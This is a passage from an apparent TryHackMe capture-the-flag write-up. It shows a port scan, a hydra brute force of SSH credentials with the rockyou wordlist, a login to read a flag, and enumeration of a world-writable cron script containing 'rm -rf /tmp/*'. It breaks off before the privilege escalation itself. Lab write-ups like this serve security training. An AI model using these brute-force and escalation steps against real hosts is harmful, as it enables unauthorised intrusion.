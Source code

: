 ## What port is SSH running on?
```console
nmap -p- -A 10.10.50.118
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-15 22:49 EDT
Nmap scan report for 10.10.50.118
Host is up (0.045s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
4XXX/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:fc:5a:a1:06:82:37:95:35:29:03:c1:34:fa:bc:99 (RSA)
|   256 36:e5:21:c9:83:8b:68:9d:30:bb:20:3c:6f:f7:fa:f4 (ECDSA)
|_  256 7b:88:cc:36:a0:f5:5a:79:3b:1c:a5:a8:e9:d2:d4:0d (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.42 seconds

```
## Crack sam's password and read flag1.txt
```console
bibo318@parrot:~$ hydra -l sam -P /usr/share/wordlists/rockyou.txt 10.10.50.118 -s 4567 -t 4 ssh # crack password with hydra
bibo318@parrot:~$ ssh sam@10.10.50.118 -p 4567 # ssh
sam@10.10.50.118's password: 
       .---.
      /     \
      \.@-@./
      /`\_/`\
     //  _  \\
    | \     )|_
   /`\_`>  <_/ \
   \__/'---'\__/
     tryhackme
sam@ip-10-10-50-118:~$ ls
flag1.txt
sam@ip-10-10-50-118:~$ cat flag1.txt
```

## Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?
after the enumeration, I found 2 insteresting files
```console
sam@ip-10-10-50-118:~$ ls -l /home/ubuntu/ # the flag2.txt is here, remember the ownership
total 4
-r-------- 1 ubuntu ubuntu 38 Dec 19 20:09 flag2.txt
sam@ip-10-10-50-118:~$ ls /home/scripts/ # 2nd file is .sh
clean_up.sh  test.txt
sam@ip-10-10-50-118:~$ cat /home/scripts/clean_up.sh #it remove everything in /tmp
rm -rf /tmp/*
sam@ip-10-10-50-118:~$ ls -la /home/scripts/ #own by ubuntu and it seem like we have permission to rwx
total 16
drwxrwxrwx 2 root   root   4096 Dec 19 20:55 .
drwxr-xr-x 5 root   root   4096 Dec 19 20:12 ..
-rwxrwxrwx 1 ubuntu ubuntu   14 Dec 19 20:55 clean_up.sh
-rw-r--r-- 1 root   root      5 Dec 19 20:55 test.txt
```
So the task is escalate our privileges by taking advantage of a cronjob... maybe the executing ```clean_up.sh``` is a part of the cronjob? let check it out
```console
sam@ip-10-10-50-118:~$ ls -la /tmp/ #so we can see the latest modified time
```